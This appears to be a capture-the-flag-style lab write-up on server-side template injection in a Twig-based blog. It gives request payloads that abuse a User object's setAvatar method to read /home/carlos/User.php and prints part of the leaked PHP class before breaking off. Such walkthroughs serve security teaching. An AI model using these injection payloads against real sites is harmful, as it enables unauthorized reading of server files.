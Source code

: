 ### LAB: Server-side template injection with a custom exploit
First try upload any arbitrary file that is not an image. We will get an error showing us some useful information:
- An object called `User` which has a function called setAvatar($filename, $mimetype)
- A `User.php` file at `/home/carlos/User.php`

Next, try changing the preferred name, notice this suspicious value used in the `POST /my-account/change-blog-post-author-display` request:

    blog-post-author-display=user.first_name

This `user.firstname` is reflected in the post page where we post a comment. Try:

    blog-post-author-display=user

We got an error indicating that the server is using `Twig` as a template engine and has a class called `User` just like from the earlier error message. Try use the `setAvatar()` function to view the `User.php` file:

    blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/png')

Reload the post page where we post a comment and visit image address to see the `User.php` content:

    <?php

    class User {
        public $username;
        public $name;
        public $first_name;
        public $nickname;
        public $user_dir;

        public function __construct($username, $name, $first_name, $nickname) {
            $this->username = $username;
            $this->name = $name;
            $this->first_name = $first_name;
            $this->nickname = $nickname;
            $this->user_dir = "users/" . $this->username;
            $this->avatarLink = $this->user_dir . "/avatar";

            if (!file_exists($this->user_dir)) {
                if (!mkdir($this->user_dir, 0755, true))
                {
                    throw new Exception("Could not mkdir users/" . $this->username);
                }
            }
        }

        public function setAvatar($filename, $mimetype) {
            if (strpos($mimetype, "image/") !== 0) {
                throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
            }

            if (is_link($this->avatarLink)) {
                $this->rm($this->avatarLink);
            }
